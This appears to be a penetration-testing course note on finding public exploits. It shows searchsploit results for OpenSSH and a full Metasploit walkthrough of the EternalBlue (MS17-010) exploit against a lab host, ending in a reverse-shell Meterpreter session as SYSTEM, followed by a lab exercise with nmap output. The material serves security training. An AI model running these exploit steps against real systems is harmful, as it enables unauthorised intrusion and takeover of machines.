

# Public Exploits

## Finding Public Exploits

Many tools can help us for public exploits for various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with **`exploit`** to see if we get any results.

A well-known tool for this purpose is **`searchsploit`**, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command :&#x20;

```shell-session
$ sudo apt install exploitdb -y
```

Then, we can use **`searchsploit`** to search a specific application by its name, as follows :&#x20;

```shell-session
$ searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration      
```

We can also utilize online exploit databases to search for vulnerabilities, like **`Exploit DB`**, **`Rapid7 DB`**, **`Vulnerability Lab`**.

## Metasploit Primer

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use exploits against vulnerable targets. MSF has many other features, like :&#x20;

* Running reconnaissance scripts to enumerate remote hosts and compromised targets
* Verification scripts to test the existence of a vulnerability without actually compromising the target
* Meterpreter, which is a great tool to connect to shells and runs commands on the compromised targets
* Many post-exploitation and pivoting tools

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit. To run **`Metasploit`**, we can the **`msfconsole`** command :&#x20;

```shell-session
$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.16-dev                          ]
+ -- --=[ 2074 exploits - 1124 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```

Once we have **`Metaslpoit`** running, we can search for our target with the **`search exploit`** command. For, example, we can search for the SMB vulnerability we identified previously :&#x20;

```shell-session
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
```


Tip : Search can apply complex filters such as search cve:2009 type:exploit. See all the filters with help search


We found one exploit for this service. We can use it by copying the full name of it and using **`USE`** to use it :&#x20;

```shell-session
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Before we can the exploit, we need to configure its options. To view the options available to configure, we can use the **`show options`** command :&#x20;

```shell-session
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
```

Any option with Required set to yes needs to be set for the exploit to work. In this case, we only have two options to set : **`RHOSTS`**, which means the IP of our target. We can set them with the set command :&#x20;

```csp
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable :&#x20;

```csp
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the **`Metasploit Framework`** supports the check function. Finally, we can use the run or exploit command to run the exploit :&#x20;

```csp
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

As we can see, we have been able to gain admin access to the box and used the **`shell`** command to drop us into an interactive shell. These are basic examples of using **`Metasploit`** to exploit a vulnerability on a remote server.

## Questions


Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)


Target : **`83.136.253.251:40341`**

```
$ nmap -sV -sC 83.136.253.251
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-24 13:30 GMT
Nmap scan report for 83-136-253-251.uk-lon1.upcloud.host (83.136.253.251)
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     m Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 d79cbe08af886d9a69cfce6ac43a7eca (RSA)
|   256 a9d1a4321e0e9b0e57ccc3213e81bf7a (ECDSA)
|_  256 5fc2ef99b8a83bf0c48dc59347a27389 (ED25519)
25/tcp filtered smtp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.83 seconds

```


```
$ searchsploit openssh
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Debian OpenSSH - (Authenticated) Remote SELin | linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIEN | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execut | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x -  | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Ove | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite    | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration      | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC | linux/remote/45210.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code Off-by | unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS Token Bu | linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffer Overf | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overf | unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remote Deni | multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privilege Esc | linux/local/41173.c
OpenSSH 7.2 - Denial of Service               | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration          | linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Execution  | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution        | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disab | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Libr | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)          | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files    | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - 'gossh.sh' Remote Users | linux/remote/26.sh
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery  | linux/remote/25.c
OpenSSHd 7.2p2 - Username Enumeration         | linux/remote/40113.txt
Portable OpenSSH 3.6.1p-PAM/4.1-SuSE - Timing | multiple/remote/3303.sh
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
